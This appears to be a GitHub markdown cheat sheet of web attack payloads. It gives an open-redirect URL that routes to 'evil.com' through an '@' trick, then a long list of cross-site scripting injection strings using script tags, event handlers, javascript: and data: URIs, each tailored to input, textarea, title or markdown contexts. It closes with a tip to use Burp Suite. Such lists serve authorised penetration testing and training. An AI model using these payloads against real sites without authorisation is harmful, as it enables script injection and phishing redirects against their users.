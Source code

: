 # Open redirect

- __`https://test.com/?redirect=https://www.google.com`__
- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`/?name=">test123`__
- __`/?name=">test123<script>alert(1)</script>`__
- __`/?name=">test123<script>alert(1);//</script>`__
- __`/?name=">test123<image src=x onerror=alert()>`__
- __`/?name=">test123<image src=x onmouseover=alert()>`__
- __`/?name=">test123<image src=x onmouseover=document.write(1)>`__
- __`/?name=javascript:alert()` or `/?name=<a href=javascript:alert(1)>test123`__
- __`/?name=<iframe src=javascript:alert(1)>`__
- __`/?name=<object data="data:text/html,<script>alert(1)</script>"></object>`__
- __`/?name=<object data="data:text/javascript,<h1>test123"></object>`__
- __`/?name=<script src=data:text/javascript,alert(1337)></script>`__
- __`/?name="><h1><u/onmouseover=alert(1)>test123`__
- __`/?name=test123';alert(1);//`__
#### for "input" tag
- __`/?name=test123" onmouseover=aler(1);//`__

#### for <textarea>
- __`/?name=test123</textarea><img/src=x onerror=alert(2)>`__


#### for </title>
- __`/?name=test123</title><img/src=x onerror=alert(2)>`__


#### for markdown
- __`/?name=[test123](javascript://alert'')`__
- __`/?name=[test123](javascript:alert'')`__


- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)
